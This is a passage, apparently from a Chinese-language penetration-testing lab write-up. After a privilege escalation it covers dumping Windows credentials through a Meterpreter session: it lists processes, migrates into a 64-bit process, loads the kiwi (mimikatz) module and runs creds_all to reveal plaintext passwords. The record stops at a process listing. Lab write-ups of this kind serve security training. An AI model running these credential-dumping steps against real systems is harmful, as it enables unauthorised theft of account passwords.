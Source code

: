 

提权成功

![image-20220813014501295](./st1.assets/image-20220813014501295.png)



## 远程登陆

### 获取密码

#### 法一：MSF

> ps 					# 查看 lsm.exe 进程的 PID
>
> migrate 512	*# 默认是加载32位的系统，所以如果目标主机是64位系统的话,需要将进程迁移到一个64位程序的进程中*
>
> load kiwi		*# 加载kiwi模块* 
>
> creds_all		*# 列举系统中的明文密码*



```bash
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 244   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 348   328   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 396   508   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 404   396   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
```